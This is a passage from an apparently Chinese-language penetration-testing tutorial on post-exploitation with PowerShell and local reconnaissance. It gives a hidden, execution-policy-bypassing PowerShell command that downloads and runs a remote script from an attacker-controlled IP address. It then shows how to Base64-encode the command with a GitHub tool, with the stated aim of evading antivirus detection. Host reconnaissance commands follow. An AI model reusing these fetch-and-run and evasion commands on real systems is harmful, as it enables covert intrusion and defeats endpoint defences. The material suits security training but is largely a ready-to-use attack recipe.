 或者简写

```
PowerShell.exe -Exec Bypass -W Hidden -NoLogo -NonI -NoP "IEX(New-Object Net.WebClient).DownloadString('http://172.16.214.1:8000/t.ps1')"
```

### 利用 Base64 对命令进行编码

使用 Base64 进行编码主要是为了混淆代码以避免被杀毒软件查杀，经过尝试这里直接使用 Base64 编码是不行的，可以使用 Github 上的一个编码工具，工具下载地址：

[https://raw.githubusercontent.com/darkoperator/powershell_scripts/master/ps_encoder.py](https://raw.githubusercontent.com/darkoperator/powershell_scripts/master/ps_encoder.py)

下载好后，需要先将要执行的命令保存到文本文件中，这里保存到了 tmp.txt 文本中，之后执行 `python ps_encoder.py -s tmp.txt` 即可

```
>cat tmp.txtIEX(New-Object Net.WebClient).DownloadString('http://172.16.214.1:8000/t.ps1')>python ps_encoder.py -s tmp.txtSQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEANwAyAC4AMQA2AC4AMgAxADQALgAxADoAOAAwADAAMAAvAHQALgBwAHMAMQAnACkA
```

使用 –Enc 指定 Base64 编码内容

```
PowerShell.exe -Exec Bypass -Enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEANwAyAC4AMQA2AC4AMgAxADQALgAxADoAOAAwADAAMAAvAHQALgBwAHMAMQAnACkA
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/Snipaste_2021-02-06_18-40-25.png)

# 0x03 本地工作组信息收集

## 1、手动收集本地工作组信息

* 查看当前权限

```
whoami 
```

* 本机网络配置信息

```
ipconfig /all
```

* 操作系统和版本信息（英文版）

```
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" 
```

* 操作系统和版本信息（中文版）

```
systeminfo | findstr /B /C:"OS 名称" /C:"OS 版本"
```

